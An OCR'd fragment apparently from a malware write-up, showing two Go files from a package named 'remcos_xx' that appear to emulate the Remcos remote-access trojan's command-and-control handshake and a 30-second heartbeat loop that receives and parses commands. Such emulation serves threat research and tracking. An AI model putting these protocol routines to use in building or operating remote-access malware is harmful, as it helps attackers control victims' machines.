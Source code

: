 ```bash
}
```

-   remcos\_xx/initconnect.go

```bash
package remcos_xx

import (
    "encoding/hex"
    "fmt"
    "net"
)

func Initconnect(conn net.Conn) {
    sendbuf, _ := hex.DecodeString("01000000307c1e1e1f7c3330")
    Sendbuf(conn, sendbuf)

    _, err := RecvBuf(conn)
    if err != nil {
        fmt.Println(err.Error())
        panic(0)
    }

    sendbuf, _ = hex.DecodeString("11000000")
    Sendbuf(conn, sendbuf)

    _, err = RecvBuf(conn)
    if err != nil {
        fmt.Println(err.Error())
        panic(0)
    }
}
```

-   remcos\_xx/heartbeat.go

```bash
package remcos_xx

import (
    "encoding/hex"
    "fmt"
    "net"
    "time"
)

func Heartbeat(conn net.Conn) {
    for {
        sendbuf, _ := hex.DecodeString("01000000307c1e1e1f7c3330")
        Sendbuf(conn, sendbuf)

        recvdata, err := RecvBuf(conn)
        if err != nil {
            fmt.Println(err.Error())
            panic(0)
        }
        ParseCommand(recvdata[:4])
        time.Sleep(30 * time.Second)
    }
}
```
